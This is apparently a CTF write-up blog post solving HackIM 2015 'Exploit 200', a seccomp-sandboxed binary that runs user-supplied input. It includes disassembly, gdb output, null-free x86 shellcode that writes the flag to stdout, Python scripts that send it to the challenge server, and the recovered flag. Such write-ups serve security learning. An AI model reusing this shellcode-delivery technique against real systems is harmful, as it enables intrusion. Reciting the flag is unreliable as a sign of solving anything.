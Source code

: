```yaml
---
layout: post
title: "HackIM 2015 Exploit 200"
date: 2015-01-11 17:49:10 -0500
author: [barrebas]
comments: true
categories: [hackim]
---
```


### Solved by barrebas

Quirky little challenge, this `sbox`. We're actually given the keys to the kingdom right away!

Again, this was a one-two with superkojiman, who did the initial reversing! The program needs `libseccomp` to run. I had to install `libseccomp1` on my Ubuntu VM and symlink `libseccomp.so.2` to it to make the binary start. [libseccomp](http://sourceforge.net/projects/libseccomp/) does syscall filtering. In this case, whatever is added to its internal list is ok, other syscalls are caught and the program exits with SIGSYS. 

The syscalls that are whitelisted can be found by looking for `seccomp_rule_add` calls:

```
 80488dc: c7 44 24 0c 00 00 00  mov    DWORD PTR [esp+0xc],0x0
 80488e3:   00 
 80488e4:   c7 44 24 08 03 00 00    mov    DWORD PTR [esp+0x8],0x3  ; syscall read
 80488eb:   00 
 80488ec:   c7 44 24 04 00 00 ff    mov    DWORD PTR [esp+0x4],0x7fff0000
 80488f3:   7f 
 80488f4:   8b 44 24 34             mov    eax,DWORD PTR [esp+0x34]
 80488f8:   89 04 24                mov    DWORD PTR [esp],eax
 80488fb:   e8 b0 fc ff ff          call   80485b0 <seccomp_rule_add@plt>
 8048900:   89 44 24 38             mov    DWORD PTR [esp+0x38],eax
 8048904:   83 7c 24 38 00          cmp    DWORD PTR [esp+0x38],0x0
 8048909:   79 05                   jns    8048910 <main+0x191>
 804890b:   e9 d9 00 00 00          jmp    80489e9 <main+0x26a>
 8048910:   c7 44 24 0c 00 00 00    mov    DWORD PTR [esp+0xc],0x0
 8048917:   00 
 8048918:   c7 44 24 08 04 00 00    mov    DWORD PTR [esp+0x8],0x4  ; syscall write
 804891f:   00 
 8048920:   c7 44 24 04 00 00 ff    mov    DWORD PTR [esp+0x4],0x7fff0000
 8048927:   7f 
 8048928:   8b 44 24 34             mov    eax,DWORD PTR [esp+0x34]
 804892c:   89 04 24                mov    DWORD PTR [esp],eax
 804892f:   e8 7c fc ff ff          call   80485b0 <seccomp_rule_add@plt>
 8048934:   89 44 24 38             mov    DWORD PTR [esp+0x38],eax
 8048938:   83 7c 24 38 00          cmp    DWORD PTR [esp+0x38],0x0
 804893d:   79 05                   jns    8048944 <main+0x1c5>
 804893f:   e9 a5 00 00 00          jmp    80489e9 <main+0x26a>
 8048944:   c7 44 24 0c 00 00 00    mov    DWORD PTR [esp+0xc],0x0
 804894b:   00 
 804894c:   c7 44 24 08 01 00 00    mov    DWORD PTR [esp+0x8],0x1  ; syscall exit
 8048953:   00 
 8048954:   c7 44 24 04 00 00 ff    mov    DWORD PTR [esp+0x4],0x7fff0000
 804895b:   7f 
 804895c:   8b 44 24 34             mov    eax,DWORD PTR [esp+0x34]
 8048960:   89 04 24                mov    DWORD PTR [esp],eax
 8048963:   e8 48 fc ff ff          call   80485b0 <seccomp_rule_add@plt>
```

So that's not a whole lot to work with. We can only read, write and exit. No `execve` or open/read/write for us!

Diving deeper
---
Luckily, when run, the binary does all the heavy lifting for us. It reads the flag and stores it on the heap. It then waits for input, storing that also on the heap and then proceeds to run whatever is entered:

```
   0x80489d6 <main+599>:    call   0x80485a0 <read@plt>
   0x80489db <main+604>:    mov    eax,DWORD PTR [esp+0x2c]
   0x80489df <main+608>:    mov    DWORD PTR [esp+0x3c],eax
   0x80489e3 <main+612>:    mov    eax,DWORD PTR [esp+0x3c]
   0x80489e7 <main+616>:    call   eax
```

This allows us to supply our own shellcode without even having to exploit a vulnerability. There were some annoying things that prevented me from debugging the binary locally, so I hex-edited the binary to make the calls to `signal()` and `alarm()` do nothing (edit the `plt` section for those calls & make the first byte `0xc3` -> `RET`).

I started binary via `socat` to test locally. First, let's see what we have to work with, by sending a single `0xcc` (`INT 3`) via a python script:

```python
import socket
import time

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 5555))

raw_input()
s.send("\xcc")

print s.recv(256)
s.close()
```

The `raw_input()` serves to halt the binary, given us the chance to attach gdb with 

```bash
$ gdb -pid `pgrep sbox`
```

After attaching, I entered 'c' to continue execution. Then the binary crashes upon hitting the `INT 3`. The registers look like this, flag is in the same mmapped region:

```
0xb77c6002 in ?? ()
gdb-peda$ i r
eax            0xb77c6000    0xb77c6000
ecx            0xb77c6000    0xb77c6000
edx            0x2000    0x2000
ebx            0xb77a5ff4    0xb77a5ff4
esp            0xbf9eff0c    0xbf9eff0c
ebp            0xbf9eff58    0xbf9eff58
esi            0x0    0x0
edi            0x0    0x0
eip            0xb77c6002    0xb77c6002
eflags         0x207    [ CF PF IF ]
cs             0x73    0x73
ss             0x7b    0x7b
ds             0x7b    0x7b
es             0x7b    0x7b
fs             0x0    0x0
gs             0x33    0x33
gdb-peda$ find "FLAG"
Searching for 'FLAG' in: None ranges
Found 2 results, display max 2 items:
    mapped : 0xb77c8000 ("FLAG\n")
```

I whipped up some 'shellcode' (if you can call it that). We can use the values of the registers in our shellcode to write the flag to STDOUT. For instance, `ecx` already points to the shellcode. We just have to add `0x2000` to it to get the address of the flag!

```
bits 32

push 0x20     # 
pop ebx       # pop 0x20 in ebx
shl ebx, 8    # ebx is now 0x2000
              # adjust ecx so that it points to flag in memory
add ecx, ebx  # ecx = buffer
xor ebx, ebx  # ebx = fd
inc ebx       # STDOUT; STDERR also works
xor edx, edx  # edx = count
mov dl, 0xff  # write out 255 bytes
push 4        # eax = syscall
pop eax       # eax = write
int 0x80      # get flag!
```

I avoided null-bytes, just in case. The shellcode was compiled with 

```bash
$ nasm -f bin ./shellcode.asm
```

I had issues with `radare2` not recognizing some opcodes (need to look into that!), which is why I switched to `nasm`. Using a modified version of the earlier python code, I sent the shellcode over to the server:

```python
import socket
import time

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('54.163.248.69',9001))

with open('shellcode') as f:
    data = f.read()
    s.send(data)

print s.recv(256)
s.close()
```

The result:

```bash
$ python sploit.py
d3sp3r4t3_sh3llc0d3
```

The flag was `d3sp3r4t3_sh3llc0d3`.

